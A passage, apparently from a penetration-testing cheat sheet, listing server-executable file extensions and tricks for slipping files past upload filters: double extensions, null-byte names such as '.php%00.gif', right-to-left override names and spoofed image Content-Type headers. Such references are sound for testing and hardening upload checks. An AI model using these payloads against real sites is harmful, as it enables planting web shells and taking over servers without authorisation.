 ### Defaults Extensions

* PHP Server
    ```powershell
    .php
    .php3
    .php4
    .php5
    .php7

    # Less known PHP extensions
    .pht
    .phps
    .phar
    .phpt
    .pgif
    .phtml
    .phtm
    .inc
    ```
* ASP Server
    ```powershell
    .asp
    .aspx
    .config
    .cer and .asa # (IIS <= 7.5)
    shell.aspx;1.jpg # (IIS < 7.0)
    shell.soap
    ```
* JSP : `.jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .actions`
* Perl: `.pl, .pm, .cgi, .lib`
* Coldfusion: `.cfm, .cfml, .cfc, .dbm`
* Node.js: `.js, .json, .node`

### Upload Tricks

- Use double extensions : `.jpg.php, .png.php5`
- Use reverse double extension (useful to exploit Apache misconfigurations where anything with extension .php, but not necessarily ending in .php will execute code): `.php.jpg`
- Random uppercase and lowercase : `.pHp, .pHP5, .PhAr`
- Null byte (works well against `pathinfo()`)
    * `.php%00.gif`
    * `.php\x00.gif`
    * `.php%00.png`
    * `.php\x00.png`
    * `.php%00.jpg`
    * `.php\x00.jpg`
- Special characters
    * Multiple dots : `file.php......` , in Windows when a file is created with dots at the end those will be removed.
    * Whitespace and new line characters
        * `file.php%20`
        * `file.php%0d%0a.jpg`
        * `file.php%0a`
    * Right to Left Override (RTLO): `name.%E2%80%AEphp.jpg` will became `name.gpj.php`.
    * Slash: `file.php/`, `file.php.\`, `file.j\sp`, `file.j/sp`
    * Multiple special characters: `file.jsp/././././.`
- Mime type, change `Content-Type : application/x-php` or `Content-Type : application/octet-stream` to `Content-Type : image/gif`
    * `Content-Type : image/gif`
    * `Content-Type : image/png`
    * `Content-Type : image/jpeg`